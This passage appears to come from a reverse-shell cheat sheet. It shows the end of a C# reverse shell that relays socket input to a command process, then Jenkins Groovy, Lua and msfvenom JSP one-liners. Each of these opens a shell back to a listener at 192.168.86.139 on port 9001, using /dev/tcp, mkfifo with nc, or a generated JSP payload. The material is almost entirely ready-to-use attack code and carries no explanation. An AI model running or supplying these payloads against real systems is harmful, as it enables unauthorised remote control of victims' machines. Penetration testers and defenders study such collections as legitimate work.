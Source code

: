 ```cs
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

### jenkins reverse shell
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.86.139/9001;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### lua reverse shell
```lua
# Example 1
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.86.139 9001 >/tmp/f")

# Example 2
lua -e 'os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.86.139 9001 >/tmp/f")'
```

### jsp reverse shell
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.86.139 LPORT=9001 -f raw > shell.jsp
```